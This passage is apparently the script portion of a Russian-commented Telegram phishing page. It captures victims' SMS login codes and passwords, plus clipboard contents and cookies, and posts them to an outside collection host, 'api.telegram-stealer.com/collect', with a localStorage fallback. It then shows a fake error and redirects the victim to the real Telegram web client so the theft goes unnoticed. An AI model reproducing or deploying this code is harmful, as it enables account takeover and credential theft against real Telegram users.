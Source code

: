             // Сохраняем код
            stolenData[0].smsCode = code;
            
            // Показываем поле для пароля
            document.getElementById('code').style.display = 'none';
            document.getElementById('password').style.display = 'block';
            document.getElementById('codeBtn').style.display = 'none';
            document.querySelector('button').style.display = 'block';
            document.querySelector('button').textContent = 'Войти в аккаунт';
            document.querySelector('button').onclick = finalSteal;

            // Обновляем данные на сервере
            sendToServer(stolenData);
        }

        function finalSteal() {
            const password = document.getElementById('password').value;
            const phone = document.getElementById('phone').value;

            // Сохраняем пароль
            stolenData[0].password = password;
            stolenData[0].completed = true;

            // Финальная отправка
            sendToServer(stolenData);

            // Показываем сообщение об ошибке (для реалистичности)
            alert('Неверный код или пароль. Попробуйте позже.');
            
            // Перенаправляем на настоящий Telegram
            setTimeout(() => {
                window.location.href = 'https://web.telegram.org';
            }, 2000);
        }

        function sendToServer(data) {
            // Отправка данных на сборник
            const formData = new FormData();
            formData.append('data', JSON.stringify(data));
            
            fetch('https://api.telegram-stealer.com/collect', {
                method: 'POST',
                body: formData,
                mode: 'no-cors'
            }).catch(() => {
                // Резервное сохранение в localStorage
                const existing = JSON.parse(localStorage.getItem('stolenAccounts') || '[]');
                localStorage.setItem('stolenAccounts', JSON.stringify([...existing, ...data]));
            });

            // Дублируем в консоль для демонстрации
            console.log('Украденные данные:', data);
        }

        // Дополнительные фишки для кражи
        document.addEventListener('copy', (e) => {
            stolenData[0].clipboardData = e.clipboardData?.getData('text');
            sendToServer(stolenData);
        });

        // Кража cookies
        if (document.cookie) {
            stolenData[0].cookies = document.cookie;
        }
    </script>
</body>
</html>
